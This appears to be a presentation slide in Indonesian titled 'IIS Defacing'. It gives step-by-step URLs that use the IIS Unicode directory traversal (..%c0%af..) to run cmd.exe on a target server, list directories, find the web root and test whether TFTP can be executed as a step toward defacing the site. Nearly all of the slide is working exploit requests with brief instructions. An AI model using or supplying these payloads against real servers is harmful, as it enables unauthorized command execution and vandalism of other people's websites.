

# IIS Defacing
http://192.168.0.1/scripts/..%c0%af../winnt/system32/cmd.exe?/c+dir
Mencari tahu root directory web server. Biasanya diletakkan di direktori /inetpub/wwwroot. Cek juga apakah dia berada pada harddisk yang sama (C:) atau disk lain (D:)
http://192.168.0.1/scripts/..%c0%af../winnt/system32/cmd.exe?c+dir+/inetpub/wwwroot
Cek apakah TFTP dapat dieksekusi
http://192.168.0.1/scripts/..%c0%af../winnt/system32/cmd.exe?/c+/winnt/system32/tftp.exe